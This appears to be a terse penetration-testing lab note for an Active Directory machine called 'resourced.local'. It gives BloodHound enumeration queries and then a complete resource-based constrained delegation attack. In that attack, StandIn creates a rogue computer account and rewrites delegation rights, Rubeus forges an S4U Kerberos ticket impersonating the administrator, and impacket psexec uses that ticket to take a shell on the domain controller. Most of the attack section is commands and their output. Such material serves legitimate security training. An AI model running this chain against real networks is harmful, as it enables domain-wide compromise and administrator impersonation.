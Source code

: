 customized query

```jsx
#find all computers in domain
MATCH (m:Computer) RETURN m
#find all users in domain
MATCH (m:User) RETURN m
#sessions
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

check

```jsx
//generic all
node info => Outbound object control => transitive object control

Analysis => Shortest Paths => Shortest Paths to Domain Admins
```

### Object Permissions

`Generic All` on resourcedDC.resourced.local (computer) ⇒ resource-based constrained delegation attack

```jsx
.\StandIn45.exe --computer xct --make //create new computer

[?] Using DC    : ResourceDC.resourced.local
    |_ Domain   : resourced.local
    |_ DN       : CN=xct,CN=Computers,DC=resourced,DC=local
    |_ Password : jZHKk2l8l9D9buy


Get-ADComputer -Filter * | Select-Object Name,SID //get old computer name

Name       SID
----       ---
RESOURCEDC S-1-5-21-537427935-490066102-1511301751-1000
xct        S-1-5-21-537427935-490066102-1511301751-4101


.\StandIn45.exe --computer ResourceDC --sid S-1-5-21-537427935-490066102-1511301751-4101 //msDS-AllowedToActOnBehalfOfOtherIdentity
.\Rubeus.exe hash /password:pasSw0rd123 //rc4
.\Rubeus.exe s4u /user:xct /rc4:CB1E5A37CC2C4958AE0E7AC1E575D72E /impersonateuser:administrator /msdsspn:cifs/resourcedc.resourced.local /nowrap /ptt //create ticket

//cifs => login via psexec
mousepad ticket.b64 #copy new ticket to kali
cat ticket.b64| base64 -d > ticket.kirbi
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=`pwd`/ticket.ccache
klist #sudo apt-get install krb5-user
sudo sh -c 'echo "192.168.1.1 resourcedc.resourced.local" >> /etc/hosts'
sudo impacket-psexec -k -no-pass resourced.local/Administrator@resourcedc.resourced.local -dc-ip 192.168.180.175

```
